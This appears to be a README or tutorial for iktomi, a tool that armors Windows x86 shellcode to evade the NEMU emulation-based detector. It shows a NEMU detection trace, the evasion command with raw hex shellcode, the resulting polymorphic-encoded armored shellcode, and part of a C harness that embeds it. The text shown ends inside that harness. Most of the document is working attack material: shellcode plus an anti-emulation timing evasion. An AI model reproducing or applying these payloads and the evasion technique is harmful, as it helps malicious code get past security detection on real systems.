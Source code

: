 If we run it we will get:

```bash
$ ./nemu_test.py
0  60000000 31DB               xor ebx,ebx                     ebx 00000000
1  60000002 648B7B30         * mov edi,fs:[ebx+0x30]           edi 7FFD7000 [7FFDF030] .p..
2  60000006 8B7F0C           * mov edi,[edi+0xc]               edi 00241EA0 [7FFD700C] ..$.
3  60000009 8B7F1C           * mov edi,[edi+0x1c]              edi 00241F58 [00241EBC] X.$.
(...)  
1016  6000005b E2FD            214 loop 0x6000005a                 ecx 00000028
1017  6000005a 53                 push ebx                        esp 60021F3A
1018  6000005b E2FD            215 loop 0x6000005a                 ecx 00000027
1019  6000005a 53                 push ebx                        esp 60021F36
1020  6000005b E2FD            216 loop 0x6000005a                 ecx 00000026
1021  6000005a 53                 push ebx                        esp 60021F32
1022  6000005b E2FD            217 loop 0x6000005a                 ecx 00000025
1023  6000005a 53                 push ebx                        esp 60021F2E
      Reached execution threshold
END   execution trace: 1024 instructions, 0 payload reads, 0 unique
[!]Detected shellcode of type [[PEB kernel32.dll] ] at offset [0]
```

In order to evade NEMU we will use the standalone tool to armor our shellcode:

```bash
$ python iktomi.py --evade nemu --depth 1 --encoders x86.poly_dword_xor --format c --shellcode 31db648b7b308b7f0c8b7f1c8b47088b77208b3f807e0c3375f289c703783c8b577801c28b7a2001c789dd8b34af01c645813e4372656175f2817e086f63657375e98b7a2401c7668b2c6f8b7a1c01c78b7caffc01c789d9b1ff53e2fd6863616c6389e252525353535353535253ffd7
[+]Selected Evader chain order: [emu.detect.timing]
WARNING: dynamic dst ExprId('EDI', 32)
[2015-07-23 10:53:03] dynamic dst ExprId('EDI', 32)
WARNING: dynamic dst ExprId('EDI', 32)
[2015-07-23 10:53:03] dynamic dst ExprId('EDI', 32)
WARNING: dynamic dst ExprId('EDI', 32)
[2015-07-23 10:53:03] dynamic dst ExprId('EDI', 32)
[+]Armored shellcode: 
unsigned char* shellcode = "\x31\xC9\x83\xE9\xFE\x51\x0F\xA2\x0F\x31\x8B\x0C\xE4\x50\x83\xF9\x02\x72\x0D\x31\xC9\x81\xE9\x01\xFF\xFF\xFF\x90\xE2\xFD\xEB\x0F\x31\xC9\x81\xE9\x01\xFF\xFF\xFF\x8D\x04\x08\xF7\xE9\xE2\xF9\x0F\x01\xF9\x50\x0F\xA2\x58\x5A\x29\xD0\xC1\xE8\x08\x59\x83\xF9\x02\x0F\x44\xF0\x0F\x45\xF8\x49\x85\xC9\x75\xBA\x29\xD2\x89\xF8\xF7\xFE\x68\x5B\x53\xC3\x1E\x83\xF8\x06\x0F\x4E\xFC\xFF\xD7\xBF\x51\x30\x7D\xEE\x83\xEB\xEC\x31\xC9\x83\xE9\xE4\x31\x3B\x83\xEB\xFC\xE2\xF9\x60\xEB\x19\x65\x2A\x00\xF6\x91\x5D\xBB\x02\xF2\xDA\x77\x75\x65\x26\x10\xF6\xD1\xD1\x4E\x71\xDD\x24\xC2\xF4\x29\x52\x48\x41\x65\x06\x48\x7C\x2C\xDA\x4A\x5D\xEF\x96\xB9\xA0\x65\x65\x9F\x7C\x28\x14\xB1\x43\xAD\x23\x55\x1C\x9B\xA3\xB1\x03\xE6\x3E\x53\x18\x9D\x24\xD9\xF6\x94\x75\x31\xBA\x88\xDA\x1C\x12\x65\x2B\x2C\x7C\x29\xDA\x4C\xD2\x12\x50\xF7\xF4\x37\xE0\xCF\x2E\x0C\xAC\x58\x1E\x8F\x3D\x53\xF4\x0C\x03\x62\x2E\xBD\x02\x63\x2E\xBD\x03\x63\x82\x39"
```

We can then run the armored payload in a dummy shellcode executer to see it works:

```c
#include <stdio.h>

int main(int ac, unsigned char**av)
{
    //Armored shellcode
    unsigned char* shellcode = "\x31\xC9\x83\xE9\xFE\x51\x0F\xA2\x0F\x31\x8B\x0C\xE4\x50\x83\xF9\x02\x72\x0D\x31\xC9\x81\xE9\x01\xFF\xFF\xFF\x90\xE2\xFD\xEB\x0F\x31\xC9\x81\xE9\x01\xFF\xFF\xFF\x8D\x04\x08\xF7\xE9\xE2\xF9\x0F\x01\xF9\x50\x0F\xA2\x58\x5A\x29\xD0\xC1\xE8\x08\x59\x83\xF9\x02\x0F\x44\xF0\x0F\x45\xF8\x49\x85\xC9\x75\xBA\x29\xD2\x89\xF8\xF7\xFE\x68\x5B\x53\xC3\x1E\x83\xF8\x06\x0F\x4E\xFC\xFF\xD7\xBF\x51\x30\x7D\xEE\x83\xEB\xEC\x31\xC9\x83\xE9\xE4\x31\x3B\x83\xEB\xFC\xE2\xF9\x60\xEB\x19\x65\x2A\x00\xF6\x91\x5D\xBB\x02\xF2\xDA\x77\x75\x65\x26\x10\xF6\xD1\xD1\x4E\x71\xDD\x24\xC2\xF4\x29\x52\x48\x41\x65\x06\x48\x7C\x2C\xDA\x4A\x5D\xEF\x96\xB9\xA0\x65\x65\x9F\x7C\x28\x14\xB1\x43\xAD\x23\x55\x1C\x9B\xA3\xB1\x03\xE6\x3E\x53\x18\x9D\x24\xD9\xF6\x94\x75\x31\xBA\x88\xDA\x1C\x12\x65\x2B\x2C\x7C\x29\xDA\x4C\xD2\x12\x50\xF7\xF4\x37\xE0\xCF\x2E\x0C\xAC\x58\x1E\x8F\x3D\x53\xF4\x0C\x03\x62\x2E\xBD\x02\x63\x2E\xBD\x03\x63\x82\x39";
```